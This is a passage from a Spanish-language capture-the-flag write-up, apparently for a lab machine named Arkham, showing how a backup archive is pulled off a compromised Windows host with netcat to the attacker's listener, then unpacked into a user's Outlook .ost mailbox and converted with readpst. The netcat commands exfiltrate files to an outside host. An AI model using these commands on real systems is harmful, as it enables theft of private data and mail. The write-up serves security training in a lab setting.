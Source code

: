 Después recordamos una manera mediante **netcat**, aprovechando que ya lo subimos podemos ejecutar el proceso.

Nos ponemos en escucha y guardamos el output en un archivo llamado `backup.zip`:

```bash
❭ nc -lvp 4434 > backup.zip
listening on [any] 4434 ...
```

Y en la máquina Windows indicamos que lea el contenido del archivo `backup.zip`, espere 5 segundos como máximo y envíe el resultado a nuestro listener:

```powershell
c:\Users\Alfred\Downloads\backups>C:\\Windows\\TEMP\\nc.exe -w 5 10.10.14.14 4434 < backup.zip
```

Recibimos:

```bash
❭ nc -lvp 4434 > backup.zip
listening on [any] 4434 ...
10.10.10.130: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.130] 49743
```

Y validando:

```bash
❭ ls 
backup.zip
```

Bien, veamos que contiene:

```bash
❭ unzip backup.zip
Archive:  backup.zip
  inflating: alfred@arkham.local.ost
```

> Offline Outlook Data File (.ost) file is used to store a synchronized copy of your mailbox information on your local computer. [Offline Outlook Data File (.ost)](https://support.microsoft.com/en-us/office/introduction-to-outlook-data-files-pst-and-ost-222eaf92-a995-45d9-bde2-f331f60e2790).

Opa, entonces tenemos los directorios de un correo (en este caso de **alfred**) 😮

Bien pues buscando en internet encontramos la herramienta [readpst](https://linux.die.net/man/1/readpst) para convertir este tipo de archivos un formato distinto, por default a un archivo `.mbox`:

```bash
❭ readpst alfred@arkham.local.ost
Opening PST file and indexes...
Processing Folder "Deleted Items"
Processing Folder "Inbox"
Processing Folder "Outbox"
Processing Folder "Sent Items"
Processing Folder "Calendar"
Processing Folder "Contacts"
Processing Folder "Conversation Action Settings"
Processing Folder "Drafts"
Processing Folder "Journal"
Processing Folder "Junk E-Mail"
Processing Folder "Notes"
Processing Folder "Tasks"
Processing Folder "Sync Issues"
Processing Folder "RSS Feeds"
Processing Folder "Quick Step Settings"
        "alfred@arkham.local.ost" - 15 items done, 0 items skipped.
        "Calendar" - 0 items done, 3 items skipped.
Processing Folder "Conflicts"
Processing Folder "Local Failures"
```